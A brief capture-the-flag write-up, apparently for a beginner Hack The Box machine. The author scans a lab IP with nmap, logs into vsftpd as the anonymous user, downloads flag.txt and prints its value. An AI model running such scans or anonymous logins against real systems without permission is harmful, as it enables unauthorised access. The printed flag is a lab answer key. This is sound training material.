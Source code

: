 With the given IP

10.129.81.157

What I'll do first is to scan it with nmap to see what ports are open and what services are running.

```bash
nmap -sV 10.129.81.157
```

And we got the following response.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-01-30 21:16 -03
Nmap scan report for 10.129.81.157 (10.129.81.157)
Host is up (0.20s latency).
Not shown: 992 closed ports
PORT      STATE    SERVICE        VERSION
21/tcp    open     ftp            vsftpd 3.0.3
82/tcp    filtered xfer
900/tcp   filtered omginitialrefs
1165/tcp  filtered qsm-gui
2161/tcp  filtered apc-agent
5510/tcp  filtered secureidprop
8009/tcp  filtered ajp13
10616/tcp filtered unknown
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.94 seconds
```

With this information we know that ftp is open, so we can try to connect to it.

But how? if we search about how to log in via ftp there is a way with `anonymous` user.

```bash
ftp <IP>
```

https://stackoverflow.com/questions/3936911/how-can-i-login-anonymously-with-ftp-usr-bin-ftp

user: `anonymous`
password: `anonymous`

```bash
ftp 10.129.81.157              
Connected to 10.129.81.157.
220 (vsFTPd 3.0.3)
Name (10.129.81.157:dyallo): anonymous  
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Here we get the flag file

```bash
ftp> ls
229 Entering Extended Passive Mode (|||6747|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||35034|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |***************************************************************************************************************************************|    32      121.59 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:02 (0.01 KiB/s)
ftp>
```

Then we do a CAT to see the content of the file

```bash
cat flag.txt
```

Output:

```
035db21c881520061c53e0536e44f815
```

And we got the flag.

https://www.hackthebox.com/achievement/machine/834305/393